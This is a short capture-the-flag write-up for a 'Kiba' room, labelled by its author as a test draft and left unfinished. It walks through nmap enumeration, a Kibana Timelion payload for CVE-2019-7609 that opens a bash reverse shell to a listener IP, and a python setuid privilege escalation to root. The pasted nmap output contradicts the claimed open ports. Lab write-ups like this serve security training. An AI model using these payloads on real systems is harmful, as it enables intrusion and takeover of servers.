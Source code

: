 * NOT THE REAL WRITEUP, I JUST DO SOME TEST*
# ROOM : KIBA

## 1. Enumeration

First of all, i have to gather somes informations about this boxes.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 09:30 EDT
Nmap scan report for 127.0.0.1
Host is up (0.000072s latency).
All 1000 scanned ports on 127.0.0.1 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

## 2. Research of exploit !
We found one CVE about Kibana : **CVE-2019-7609**

This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner to get the reverseshell.

`nc -lnvp 4444`

On the Timelion, i can put the payload :

`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

Nice, we have the reverse shell.

1st flag obtained !

## 3. Privilege escalation !

We have to look at linux capabilities with getcap.

```getcap -r / 2</dev/null```

We can see python have the setuid capabilite and we can exploit this to get the root.
Using GTFOBins we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

(En cours d'écriture..)
